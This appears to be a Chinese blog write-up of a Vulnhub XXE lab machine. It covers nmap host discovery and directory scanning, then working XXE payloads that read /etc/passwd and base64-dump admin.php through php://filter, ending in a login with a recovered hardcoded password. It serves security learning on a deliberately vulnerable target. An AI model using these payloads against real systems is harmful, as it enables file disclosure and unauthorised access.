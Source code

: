 ```yaml
---
layout: post
title: Vulnhub靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，/xxe/admin.php页面

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- ip/xxe/admin.php同样是登录界面

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- 查看源码，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)


![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

- 登录admin.php

![xxe-11](https://cijian00.github.io/img/Vulnhub/XXE/11.png)

